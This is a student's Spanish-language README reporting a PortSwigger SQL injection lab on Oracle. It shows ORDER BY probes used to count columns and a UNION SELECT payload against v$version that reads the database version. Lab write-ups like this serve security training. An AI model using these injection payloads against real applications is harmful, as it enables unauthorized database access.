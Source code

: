 # Reto-Christian_Sangucho
Reto_Laboratio_SQLi

# README_CHRISTIAN_SANGUCHO_DIAZ
# INFORME LABORATORIO https://portswigger.net/

## Laboratorio:
Ataque de inyección SQL, consultando el tipo y la versión de la base de datos en Oracle

## Objetivo:
Conseguir la versión de Oracle

##Consulta Original: 
SELECT * FROM articles WHERE category = ‘Gifts’


## Consulta Manipulada:
Se busca el número de columnas con las siguientes instrucciones
‘ ORDER BY 1
‘ ORDER BY 2
‘ ORDER BY 3


! [Imagen búsqueda de número de columnas con error](https://github.com/christiansangucho/Reto-Christian_Sangucho/blob/main/Imagen%20b%C3%BAsqueda%20de%20n%C3%BAmero%20de%20columnas%20con%20error.png)
! [Imagen búsqueda de número de columnas]()

## Consulta para obtener la versión de Oracle
=Gifts' UNION SELECT banner, 'NULL' FROM v$version--

! [Imagen de la Version Oracle]()

